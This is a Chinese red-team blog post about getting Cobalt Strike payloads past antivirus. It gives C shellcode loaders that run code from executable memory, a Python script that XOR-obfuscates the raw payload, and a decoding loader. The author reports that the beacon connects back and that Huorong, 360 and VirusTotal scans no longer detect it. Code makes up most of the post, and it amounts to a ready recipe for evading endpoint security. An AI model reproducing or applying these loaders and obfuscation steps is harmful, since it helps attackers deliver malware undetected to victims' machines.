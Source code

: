 ```yaml
---
layout:     post
title:    静态免杀尝试
subtitle:   shellcode混淆免杀
date:       2019-11-12
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 免杀
    - 病毒
---
```

# 静态免杀尝试

## 前言
在实际中碰到一些问题，直接用cs生成的payload过不了杀软，这时需要简单的处理下，参考了一些思路，写了几个测试demo，尝试了一下效果还可以。  

## 实测
这里我是写了个shellcode加载代码，烂大街了，用来加载cs生成的shellcode。
贴几个常用的加载代码（C加载shellcode的）：  
第一种：  
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] ="xxxxxxxxxxxxxxxx";

void main()
{
	((void(*)(void))&shellcode)();
}
```
第二种：  
```
#include "windows.h"  
#include "stdio.h"  

//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口  
//#pragma comment(linker,"/MERGE:.rdata=.text /MERGE:.data=.text /SECTION:.text,EWR")//减小编译体积  

unsigned char shellcode[] =“xxxxxxxxxx”;
void main()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, sizeof(shellcode));
	((void(*)())Memory)();
}
```
然后使用cs生成shellcode，这里先测试不混淆的shellcode。  
![191112_1](/img/191112_payloadgenerate.png)  
用[https://www.virustotal.com](https://www.virustotal.com)检查，效果已经不错了。  
![191112_2](/img/191112_virustotal.png)  

## 混淆
更进一步，再对shellcode进行异或混淆，使样本查杀率更低。   
这里用cs生成bin文件，再生成时选择raw。  
![191112_3](/img/191112_raw.png)  
然后进行异或操作：  
```
import sys

def payload_xor(filepath):
    shellcode = ''
    f = open(filepath, 'rb')
    out = open("./payload_xor_c",'wb')
    shellcode_size = 0
    while True:
        code = f.read(1)
        if not code:
            break
        xorcode = ord(code) ^ 4      //转成ascii后异或
        xorcode_str = chr(xorcode)
        code_hex = hex(xorcode)
        code_hex = code_hex.replace('0x','')
        if(len(code_hex) == 1):
            code_hex = '0' + code_hex   #补0
        shellcode += '\\x' + code_hex   #写成0x 形式
        shellcode_size += 1
    f.close()
    out.write(bytes(shellcode, encoding = "utf8"))
    out.close()
    return shellcode_size

if __name__ == '__main__':
    payload_xor(sys.argv[1])
	
```
然后在加载器中多一步还原操作。  
```
……
void main()
{
    for (int i = 0;i < sizeof(shellcode);i++)
    {
         shellcode[i] ^= 4;                  //还原
    }
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}
```   
编译运行，成功上线。  
![191112_4](/img/191112_beacon.png)  
火绒 360已经不报毒了。  
放virustotal上查杀一下。  
![191112_5](/img/191112_virustotal2.png)  

## 总结
这次并未进行分离免杀，效果也能凑合，实战中没试，咱也不敢呐。 后面的话会尝试下分离免杀，通过网络，数据共享去完成加载，更具有通用性。  
